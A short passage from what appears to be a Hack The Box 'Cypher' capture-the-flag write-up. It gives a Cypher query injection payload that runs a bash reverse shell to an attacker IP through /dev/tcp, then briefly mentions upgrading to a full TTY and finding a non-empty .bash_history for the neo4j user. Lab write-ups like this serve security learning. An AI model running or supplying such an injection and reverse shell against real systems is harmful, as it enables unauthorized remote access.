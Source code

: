 
### Reverse Shell

Payload: **test' OR 1=1 WITH 1 AS x CALL custom.getUrlStatusCode(\"http://10.10.14.13:8000/helloWorld;bash -c 'bash -i >& /dev/tcp/10.10.14.13/8443 0>&1'\") YIELD statusCode AS y RETURN y as hash //**

![6bd4a0372389d3566fc151c65b101159.png](/assets/images/HTB-Cypher/6bd4a0372389d3566fc151c65b101159.png)

Switching full tty shell

![ead795ec488b292280f019798b670d29.png](/assets/images/HTB-Cypher/ead795ec488b292280f019798b670d29.png)

Generally in HTB environment `.bash_history` is linked to `/dev/null` When i look the neo4j user home directory the `.bash_history` is not empty and didn't linked to `/dev/null`
